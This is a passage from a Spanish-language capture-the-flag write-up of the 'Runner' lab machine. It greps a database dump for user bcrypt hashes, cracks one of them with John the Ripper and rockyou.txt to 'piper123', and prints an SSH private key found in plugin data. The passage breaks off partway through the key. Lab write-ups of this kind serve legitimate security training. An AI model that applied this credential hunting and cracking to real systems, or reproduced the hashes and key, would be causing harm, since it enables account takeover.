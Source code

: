 ```bash
grep -ri "john"
database_dump/comments:201, -42, 1709746543407, "New username: \'admin\', new name: \'John\', new email: \'john@runner.htb\'"
database_dump/users:1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1730124582065, BCRYPT

grep -ri "matthew"
database_dump/vcs_username:2, anyVcs, -1, 0, matthew
database_dump/users:2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
config/_trash/AllProjects.project1/project-config.xml:  <description>Matthew's projects</description>
config/projects/AllProjects/project-config.xml.1:  <description>Matthew's projects</description>
system/pluginData/audit/configHistory/projects/project1/config.xml.1:  <description>Matthew's projects</description>
```

logramos ver el hash de admin y matthew que son los usuarios a nivel de sistema o contenedor.

- admin
  + $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye

- matthew
  + $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em

vamos intentar crackearlos con `johntheripper` pasandole el diccionario `rockyou.txt` que es un diccionario grande y tipico en estos ataques de crackeo de contraseñas.

```bash
john --show hash                                     
?:piper123

1 password hash cracked, 0 left
```

solo nos crackea uno, el otro hash queda ahi... vamos a intentar entrar por ssh con esta contraseña pasandole el usuario john y matthew pero no sirve para ninguno, asi que no perdamos tiempo con esto. Vamos a seguir enumerando buscando alguna id_rsa

```bash
find . -name "id_rsa" 2>/dev/null | cat ./config/projects/AllProjects/pluginData/ssh_keys/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAlk2rRhm7T2dg2z3+Y6ioSOVszvNlA4wRS4ty8qrGMSCpnZyEISPl
htHGpTu0oGI11FTun7HzQj7Ore7YMC+SsMIlS78MGU2ogb0Tp2bOY5RN1/X9MiK/SE4liT
njhPU1FqBIexmXKlgS/jv57WUtc5CsgTUGYkpaX6cT2geiNqHLnB5QD+ZKJWBflF6P9rTt
zkEdcWYKtDp0Phcu1FUVeQJOpb13w/L0GGiya2RkZgrIwXR6l3YCX+mBRFfhRFHLmd/lgy
/R2GQpBWUDB9rUS+mtHpm4c3786g11IPZo+74I7BhOn1Iz2E5KO0tW2jefylY2MrYgOjjq
5fj0Fz3eoj4hxtZyuf0GR8Cq1AkowJyDP02XzIvVZKCMDgVNAMH5B7COTX8CjUzc0vuKV5
iLSi+vRx6vYQpQv4wlh1H4hUlgaVSimoAqizJPUqyAi9oUhHXGY71x5gCUXeULZJMcDYKB
Z2zzex3+iPBYi9tTsnCISXIvTDb32fmm1qRmIRyXAAAFgGL91WVi/dVlAAAAB3NzaC1yc2
EAAAGBAJZNq0YZu09nYNs9/mOoqEjlbM7zZQOMEUuLcvKqxjEgqZ2chCEj5YbRxqU7tKBi
NdRU7p+x80I+zq3u2DAvkrDCJUu/DBlNqIG9E6dmzmOUTdf1/TIiv0hOJYk544T1NRagSH
sZlypYEv47+e1lLXOQrIE1BmJKWl+nE9oHojahy5weUA/mSiVgX5Rej/a07c5BHXFmCrQ6
dD4XLtRVFXkCTqW9d8Py9BhosmtkZGYKyMF0epd2Al/pgURX4URRy5nf5YMv0dhkKQVlAw
fa1EvprR6ZuHN+/OoNdSD2aPu+COwYTp9SM9hOSjtLVto3n8pWNjK2IDo46uX49Bc93qI+
IcbWcrn9BkfAqtQJKMCcgz9Nl8yL1WSgjA4FTQDB+Qewjk1/Ao1M3NL7ileYi0ovr0cer2
EKUL+MJYdR+IVJYGlUopqAKosyT1KsgIvaFIR1xmO9ceYAlF3lC2STHA2CgWds83sd/ojw
WIvbU7JwiElyL0w299n5ptakZiEclwAAAAMBAAEAAAGABgAu1NslI8vsTYSBmgf7RAHI4N
BN2aDndd0o5zBTPlXf/7dmfQ46VTId3K3wDbEuFf6YEk8f96abSM1u2ymjESSHKamEeaQk
lJ1wYfAUUFx06SjchXpmqaPZEsv5Xe8OQgt/KU8BvoKKq5TIayZtdJ4zjOsJiLYQOp5oh/
1jCAxYnTCGoMPgdPKOjlViKQbbMa9e1g6tYbmtt2bkizykYVLqweo5FF0oSqsvaGM3MO3A
Sxzz4gUnnh2r+AcMKtabGye35Ax8Jyrtr6QAo/4HL5rsmN75bLVMN/UlcCFhCFYYRhlSay
yeuwJZVmHy0YVVjxq3d5jiFMzqJYpC0MZIj/L6Q3inBl/Qc09d9zqTw1wAd1ocg13PTtZA
mgXIjAdnpZqGbqPIJjzUYua2z4mMOyJmF4c3DQDHEtZBEP0Z4DsBCudiU5QUOcduwf61M4
CtgiWETiQ3ptiCPvGoBkEV8ytMLS8tx2S77JyBVhe3u2IgeyQx0BBHqnKS97nkckXlAAAA
wF8nu51q9C0nvzipnnC4obgITpO4N7ePa9ExsuSlIFWYZiBVc2rxjMffS+pqL4Bh776B7T
```